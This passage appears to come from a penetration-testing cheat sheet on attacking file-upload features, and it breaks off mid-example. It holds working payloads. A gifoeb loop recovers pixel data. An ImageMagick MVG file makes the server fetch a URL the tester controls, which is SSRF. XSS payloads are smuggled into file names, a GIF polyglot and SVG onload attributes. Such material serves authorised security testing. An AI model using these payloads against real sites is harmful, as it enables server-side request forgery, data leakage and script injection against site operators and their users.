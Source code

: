 ```markdown
6. Save and recover the pixel files.

    for p in previews/\*; do
    ./gifoeb recover $p | strings;
    done

7. More details here https://github.com/neex/gifoeb

########################### Another Different method #############################

Reference : https://www.exploit-db.com/exploits/39767 , https://hackerone.com/reports/135072

1. Find Upload functionality.
2. Make a file with .mvg extension and add below code in it.

push graphic-context
viewbox 0 0 640 480
fill 'url(http://example.com/)'
pop graphic-context

Here example.com can be your burp collab url or your site were you can receive HTTP request. 3. Now use below command

convert ssrf.mvg out.png

4. Upload the image and see if you received http request.

Find ready made and more payloads here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik
```

## Exploitation:

### XSS:

```markdown
There are multiple ways to achieve XSS.

1. Set file name filename="svg onload=alert(document.domain)>" , filename="58832_300x300.jpg<svg onload=confirm()>"
2. Upload using .gif file

GIF89a/_<svg/onload=alert(1)>_/=alert(document.domain)//;

3. Upload using .svg file
```

<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
